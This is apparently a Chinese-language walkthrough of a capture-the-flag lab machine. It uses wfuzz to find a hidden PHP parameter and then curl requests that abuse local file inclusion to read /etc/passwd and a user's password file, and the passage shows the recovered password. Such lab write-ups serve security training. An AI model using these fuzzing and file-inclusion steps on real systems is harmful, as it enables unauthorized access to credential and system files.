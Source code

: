 ```shell

```

Tips：使用模糊测试查找正确参数，查看 location.txt

使用 wfuzz 对 image.php 和 index.php 进行模糊测试

```shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.30.134/index.php?FUZZ
# 过滤结果 根据响应代码或字符数（不等于136）过滤掉结果
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.30.134/index.php?FUZZ

wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --filter "c=200 and h!=136" http://192.168.30.134/index.php?FUZZ
```

![image-20221207150628111.png](https://img.ghostliner.top/zo7Fo6.png)

获得参数为 file，猜测通过此参数可读取文件

```shell
curl http://192.168.30.134/index.php?file=/etc/passwd #失败
curl http://192.168.30.134/index.php?file=location.txt

###
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" />
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
```

Tips:使用 secrettier360 参数在其他页面上尝试

```shell
curl http://192.168.30.134/image.php?secrettier360=/etc/passwd
```

![image-20221207155810036.png](https://img.ghostliner.top/PNZ6c8.png)

Tips:sacket:find password.txt file in my directory:/home/saket

```shell
curl http://192.168.30.134/image.php?secrettier360=/home/saket/password.txt
```

![image-20221207155950002.png](https://img.ghostliner.top/HMLc0Y.png)

密码：follow_the_ippsec

获取用户名
